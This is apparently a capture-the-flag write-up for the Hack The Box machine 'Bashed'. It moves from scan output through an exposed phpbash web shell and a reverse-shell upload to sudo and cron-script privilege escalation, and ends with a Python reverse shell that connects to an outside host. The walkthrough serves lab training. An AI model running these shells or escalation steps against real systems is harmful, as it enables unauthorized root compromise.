

# Bashed


## Information Gathering
Bashed<br>
10.10.10.68<br>

<ul>Software Versions
	<li>Apache httpd 2.4.18</li>
</ul>

## Enumeration
Starting with an nmap scan:
```bash
# Nmap 7.92 scan initiated Sat Feb 12 23:38:32 2022 as: nmap -sC -sV -oN nmap/bashed.nmap 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.028s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexels Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 12 23:38:40 2022 -- 1 IP address (1 host up) scanned in 8.11 seconds

```
Because there is only a HTTP server, I also run a nikto scan along with a directory busting.
```bash
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.68
+ Target Port: 80
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HEAD Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ GET IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: GET The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ GET Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ OPTIONS Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ GET /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: GET /css/: Directory indexing found.
+ OSVDB-3092: GET /css/: This might be interesting...
+ OSVDB-3268: GET /dev/: Directory indexing found.
+ OSVDB-3092: GET /dev/: This might be interesting...
+ OSVDB-3268: GET /php/: Directory indexing found.
+ OSVDB-3092: GET /php/: This might be interesting...
+ OSVDB-3268: GET /images/: Directory indexing found.
+ OSVDB-3233: GET /icons/README: Apache default file found.

```
Directory Busting
```bash
DirBuster 1.0-RC1 - Report
http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
Report produced on Sat Feb 12 23:58:37 EST 2022
--------------------------------

http://10.10.10.68:80
--------------------------------
Directories found during testing:

Dirs found with a 200 response:

/
/images/
/js/
/demo-images/
/uploads/
/php/
/css/
/dev/
/fonts/

Dirs found with a 403 response:

/icons/
/icons/small/


--------------------------------
Files found during testing:

Files found with a 200 responce:

/index.html
/contact.html
/about.html
/single.html
/scroll.html
/js/jquery.js
/js/imagesloaded.pkgd.js
/js/custom_google_map_style.js
/js/html5.js
/js/jquery.nicescroll.min.js
/js/jquery.smartmenus.min.js
/js/jquery.carouFredSel-6.0.0-packed.js
/js/jquery.mousewheel.min.js
/js/jquery.easing.1.3.js
/js/jquery.touchSwipe.min.js
/js/main.js
/uploads/index.html
/php/sendMail.php
/css/carouFredSel.css
/css/clear.css
/css/common.css
/css/font-awesome.min.css
/css/sm-clean.css
/dev/phpbash.min.php
/dev/phpbash.php
/icons/README.html
/config.php
/fonts/FontAwesome.otf
/fonts/fontawesome-webfont.eot
/fonts/fontawesome-webfont.svg
/fonts/fontawesome-webfont.ttf
/fonts/fontawesome-webfont.woff
/fonts/fontawesome-webfont.woff2


--------------------------------
```

## Exploitation
This box actually gives you foothold right from the beginning. If you didn't do your directory busting correctly I can see how you might've missed it. In <b>/dev/phpbash.php</b> as a special web application which gives you a shell into the box from the web browser. From there you are in as the user www-data. I wanted an actual terminal on the box so I uploaded the <a href="php-reverse-shell.php">php-reverse-shell.php</a> in the upload directory and caught a reverse shell. I then upgrade the shell.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+z 
stty -a
speed 38400 baud; rows 60; columns 235; line = 0;
stty raw -echo; fg
	stty rows 60 cols 235
export TERM=xterm
```

## Privilege Escalation
I run LinEnum.sh and find something very interesting:
```bash
./LinEnum.sh -t -r results

[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
This means we can run any file as script manager without specifying a password. In order to do this:
```bash
sudo -u scriptmanager /bin/bash
```
And then we become scriptmanager. I then run LinEnum.sh another time. Again I find something interesting.
```bash
./LinEnum.sh -t -r results_as_scriptmanager.txt 

[-] Files owned by our user:
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 /scripts/test.py
-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec  4  2017 /home/scriptmanager/.profile
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec  4  2017 /home/scriptmanager/.bashrc
-rw------- 1 scriptmanager scriptmanager 2 Dec  4  2017 /home/scriptmanager/.bash_history
-rw-r--r-- 1 scriptmanager scriptmanager 220 Dec  4  2017 /home/scriptmanager/.bash_logout
-rw-r--r-- 1 scriptmanager scriptmanager 5988 Feb 13 09:27 /tmp/results_as_scriptmanager.txt
```
There is a folder in the root directory called scripts. Looking at test.py shows that it rights to a file test.txt. test.txt is owned by root so, this python script is probably ran every few minutes as root. Thus, I have semi-code execution as root. I write a small Python reverse shell and catch the root shell:
```Python
#!/usr/bin/python3

import socket,pty,sys,os

s = socket.socket()
s.connect(("10.10.14.122",1337))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```